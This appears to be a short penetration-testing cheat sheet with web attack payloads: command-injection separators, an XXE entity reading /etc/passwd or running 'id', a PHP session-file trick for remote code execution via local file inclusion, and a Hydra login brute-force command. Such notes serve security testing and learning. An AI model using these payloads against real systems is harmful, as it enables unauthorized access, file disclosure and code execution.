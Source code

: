 ### Command Injection
Use the following synbols to test for command injection
```
   * ; 
   * | 
   * ||
   * & 
   * &&
   * '
```

### XML External Entity Attack (XXE)

* https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing
* https://portswigger.net/web-security/xxe

```xml
<!-- Change from -->
<?xml version="1.0" encoding="UTF-8"?>
<creds>
    <email>admin@h4ck.local</email>
    <pass>admin</pass>
</creds>

<!-- To -->

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo
  [<!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM "expect://id" >]> <!--<!ENTITY xxe SYSTEM "file:///etc/passwd" >]> -->
<creds>
  <email>`&xxe;`</email>
  <pass>`mypass`</pass>
</creds>

```

### Hacking PHP Sessions (Windows) Remote Code Execution
If you have LFI, then try checking the following location
`C:\Windows\TEMP\sess_<SESSION>` this is the location of the php session (if you access this file, it will list data such as the username)

If you can create a new username as ```<?=`powershell dir`?>```, and then try access the above file with the LFI, if it is executing PHP code then you can get RCE that way


### Hydra Web-Login Bruteforce
```bash
# Get the "error message"
# hydra -VV -F -I -l <USER> -p <Password> <IP Address> http-post-form "<Login Page>:<Request Body>:<Error Message>"
hydra -VV -F -I -L usernames.txt -P passwords.txt $IP http-post-form "/url/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed"
```
